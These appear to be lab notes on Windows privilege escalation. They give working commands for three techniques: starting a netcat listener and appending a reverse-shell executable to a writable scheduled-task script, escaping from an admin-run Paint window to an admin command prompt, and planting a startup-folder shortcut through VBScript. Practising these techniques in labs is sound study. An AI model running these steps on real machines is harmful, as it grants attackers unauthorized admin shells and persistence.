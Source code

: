 # Scheduled Tasks

we can list all scheduled tasks that our user can see with
```bash
schtasks /query /fo LSIT /v
```

but here we can rely in enumerating the system and looking for files indecate schedule task
like `C:\DevTools\CleanUp.ps1` script in our case
```bash
type C:\DevTools\CleanUp.ps1
```

check if we have write permission

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

we have write access so start our listner `nc -lvnp 53`

and append the reverse.exe to the scirpt :
```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the Scheduled Task to run, and u will get reverse shell

# Insecure GUI Apps

if we run the `paint` in the desktop and run
```bash
tasklist /V | findstr mspaint.exe
```

we can see that the paint is runing as admin, so as the process follow their parrent
we can use it to open admin cmd

from open write in search bar `file://C:/windows/system32/cmd.exe` 

# Startup Apps

start with checking if we have write access to StartUp directory
```bash
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

create vps script

```bash
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

run it with
```bash
cscript C:\PrivEsc\CreateShortcut.vbs
```

when admin login u should get ur shell

# 